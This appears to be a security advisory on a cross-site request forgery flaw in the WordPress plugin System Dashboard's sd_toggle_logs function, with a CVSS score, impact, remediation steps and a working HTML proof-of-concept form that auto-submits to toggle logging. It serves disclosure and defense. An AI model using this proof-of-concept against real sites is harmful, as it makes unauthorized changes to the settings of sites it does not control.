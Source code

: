 #  Cross-Site Request Forgery (CSRF) in Plugin System Dashboard (Funtion sd_toggle_logs)

**Vulnerability Type:** Cross-Site Request Forgery (CSRF)

**Affected Function:** sd_toggle_logs()

**CVSS v3.1:** 4.3 (Medium)    
**Vector:** AV:N/AC:L/PR:H/UI:R/S:U/C:N/I:L/A:N    
*(Note: Score reflects unauthorized state change requiring an admin victim and user interaction.)*

**Description of Vulnerability:**

The function `sd_toggle_logs()` processes sensitive operations such as enabling/disabling Page Access Logs, Error Logs, and Email Delivery Logs. However, it relies solely on the `$_REQUEST['log_type']` parameter and a capability check `(current_user_can( 'manage_options' ))` without implementing CSRF protection (e.g., `check_admin_referer()` or a nonce).

As a result, an attacker can lure a logged-in Administrator to visit a malicious page that silently submits a crafted request, causing unintended enable/disable changes to site logging.

## Impact:

- Unauthorized state changes for site logging features (Page Access Log, Error Log, Email Delivery Log).

- If error logging is enabled, the site may begin writing application errors to a file path determined by the plugin (increasing the chance of operational information disclosure via logs), but the direct impact of this issue is the state toggle itself.

## POC 
When a logged-in User with `manage_options` visits the attacker’s page, the respective logging feature is toggled without explicit consent.
``` html
 <body>
    <form action="http://victim.com/wordpress/wp-admin/admin-ajax.php">
      <input type="hidden" name="action" value="sd&#95;toggle&#95;logs" />
      <input type="hidden" name="log&#95;type" value="errors&#95;log" />
      <input type="hidden" name="fast&#95;ajax" value="true" />
      <input type="hidden" name="load&#95;plugins&#91;&#93;" value="system&#45;dashboard&#47;system&#45;dashboard&#46;php" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## Remediation

- Implement WordPress nonces (`check_admin_referer()` or `wp_verify_nonce()`) to validate requests.

- Restrict sensitive actions to POST requests only.

- Avoid relying solely on capability checks for protection against CSRF.

## Video POC
If you're unable to reproduce the issue exactly as described in the report, please refer to the following video demonstration (PoC) for a clear reproduction scenario:

https://youtu.be/WtWYIfEM4W0
